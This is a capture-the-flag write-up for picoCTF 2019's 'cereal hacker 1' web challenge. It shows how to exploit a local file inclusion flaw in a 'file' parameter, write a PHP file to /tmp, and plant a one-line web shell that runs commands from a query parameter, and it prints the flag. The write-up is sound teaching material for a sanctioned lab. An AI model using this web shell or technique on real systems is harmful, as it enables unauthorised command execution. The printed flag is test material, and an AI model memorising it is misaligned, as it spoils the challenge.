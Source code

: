 # web / cereal hacker 1

> Points: 450 \
> previous cereal hacker | [next cereal hacker](../cereal-2)

## Question

> Login as admin. <https://2019shell1.picoctf.com/problem/12279/> or <http://2019shell1.picoctf.com:12279>

## Solution

Following the link immediately redirects you to `/index.php?file=login`.
Submitting the form sends a `POST` request to `/index.php?file=login`.
`file` is a suspicious parameter name, so we can test out other "file"s in there.
It turns out that `head`, `foot`, and `admin` are all valid "file"s.

These files must be loading from somewhere, presumably PHP files.
Trying to `GET` any one (for example `/admin.php`) results in the body content of that page (or in the case of `head` and `foot`, the header and footer of the pages).
This is indicative of a Local File Injection (LFI) vulnerability.
If we can get a PHP file somewhere on the server that the webserver can read from, it can execute arbitrary PHP code.
We already have SSH access provided by picoCTF, so we can write to the `/tmp` directory on the server.

```console
retrocraft@pico-2019-shell1:~$ touch /tmp/lfi.php
retrocraft@pico-2019-shell1:~$ echo "hello, world!" > /tmp/lfi.php
```

Bringing up `/index.php?file=/tmp/lfi` shows "hello, world!" onscreen.
We can now step this up a notch by putting what amounts to a reverse shell on the server.

```php
<?php
echo(system($_GET['cmd']));
?>
```

With this, we can request `/index.php?file=/tmp/lfi&cmd=cat%20admin.php`.
In the dump of `admin.php`, we find the flag.

### Flag

`picoCTF{3fba6964d680deb73b38b7f2916df7d5}`
